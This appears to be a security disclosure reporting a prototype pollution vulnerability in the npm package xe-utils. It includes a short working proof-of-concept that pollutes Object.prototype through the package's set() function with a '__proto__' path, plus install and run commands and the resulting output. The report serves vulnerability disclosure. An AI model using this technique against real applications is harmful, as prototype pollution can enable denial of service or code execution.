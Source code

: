 # Description

`xe-utils` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('xe-utils')
console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i xe-utils # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
